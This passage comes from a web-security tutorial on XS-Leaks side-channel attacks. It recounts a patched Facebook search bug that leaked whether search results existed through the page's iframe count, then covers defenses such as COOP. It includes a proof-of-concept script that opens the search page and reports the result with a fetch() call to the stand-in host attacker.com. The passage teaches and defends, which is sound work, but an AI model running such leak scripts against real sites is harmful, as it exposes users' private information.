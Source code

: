 For example, in 2018, the security company Imperva wrote a blog post titled [Patched Facebook Vulnerability Could Have Exposed Private Information About You and Your Friends](https://www.imperva.com/blog/facebook-privacy-bug/), which utilized this technique.

Facebook has a search feature that allows users to search for friends, posts, photos, etc. This search feature is designed for easy sharing, so users can directly access it through the URL. For example, the URL `https://www.facebook.com/search/str/chen/users-named/me/friends/intersect` will display search results for friends with the name "chen".

And the author discovered a difference, which is that if there is something in the search results, there will be an iframe on the page, and the author speculates that this may be for Facebook tracking purposes. If there are no results, then there won't be this iframe.

In other words, we can determine whether there are search results or not by checking `frames.length`.

The attack process is as follows: we first prepare an HTML with the following content:

``` html
<script>
  let win = window.open('https://www.facebook.com/search/str/chen/users-named/me/friends/intersect')
  setTimeout(() => {
    if (win.frames.length === 0) {
      fetch('https://attacker.com/?result=no')
    } else {
      fetch('https://attacker.com/?result=yes')
    }
    win.close()
  }, 2000)
</script>
```

Then we send this webpage to the target. After the target opens the webpage, the attacker's server will receive the search results.

Defending against this type of attack is more difficult because the same-site cookie Lax doesn't work here. The code uses `window.open`, and unless you set it to strict, the cookie will be sent along with the request.

The previously mentioned Fetch Metadata is also ineffective because this is actually a normal request.

If you want to defend against this using existing mechanisms, you can add the COOP (Cross-Origin-Opener-Policy) header. This way, the opened window will lose its connection to the original window, and it won't be able to access `win.frames`.

Another option is to modify the search results page. Whether there are search results or not, either always have an iframe or never have one, so that information cannot be leaked through the number of iframes.

## Conclusion

In this article, we learned what side-channel attacks are and understood the basic principles of XSLeaks. We also saw several real-life examples that demonstrate that this is indeed an exploitable vulnerability.
